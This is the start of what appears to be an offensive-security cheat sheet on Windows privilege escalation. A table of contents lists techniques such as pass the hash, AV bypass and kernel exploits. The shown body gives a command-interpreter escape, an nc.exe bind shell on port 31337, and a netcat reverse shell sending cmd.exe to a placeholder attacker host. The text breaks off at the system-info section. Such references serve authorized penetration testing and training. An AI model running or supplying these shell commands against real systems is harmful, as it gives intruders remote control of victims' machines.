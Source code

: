 # Windows elevation of privileges    

## Windows elevation of privileges ToC

*   [From RCE to shell](#From RCE to shell)
*   [EoP 0: System info](#EoP 0: System info)
*   [EoP 1: Incorrect permissions in services](#EoP 1: Incorrect permissions in services)
*   [EoP 2: Find unquoted paths](#EoP 2: Find unquoted paths)
*   [EoP 3: ClearText passwords (quick hits)](#EoP 3: ClearText passwords (quick hits))
*   [EoP 4: Pass the hash](#EoP 4: Pass the hash)
*   [EoP 5: Services only available from loopback](#EoP 5: Services only available from loopback)
*   [EoP 6: AlwaysInstallElevated](#EoP 6: AlwaysInstallElevated)
*   [EoP 7: Vulnerable drivers](#EoP 7: Vulnerable drivers)
*   [EoP 8: Kernel vulnerabilities](#EoP 8: Kernel vulnerabilities)
*   [Windows version map](#Windows version map)
*   [EoP 9: Automated tools](#EoP 9: Automated tools)
*   [Useful commands](#Useful commands)
*   [Transferring files](#Transferring files)
*   [Metasploit](#Metasploit)
*   [Useful exploits](#Useful exploits)
*   [Windows MS11-080](#Windows MS11-080)
*   [From admin to system](#From admin to system)
*   [AV bypass](#AV bypass)
*   [Print proof](#Print proof)
*   [Access Check](#Access Check)
*   [Windows hashes](#Windows hashes)
*   [PoCs](#PoCs)

## From RCE to shell

Getting a shell in limited interpreters:

    $ system("start cmd.exe /k $cmd")

Bind cmd to a port:

    $ nc.exe -Lp 31337 -vv -e cmd.exe

Reverse shell:

    $ nc.exe attacker_ip attacker_port -e cmd.exe

## EoP 0: System info

Finding installed software, running processes, bind ports, and OS version might be critical to identify the right EoP vector.

Find installed patches, architecture, OS version

    $ systeminfo

Get exact OS version
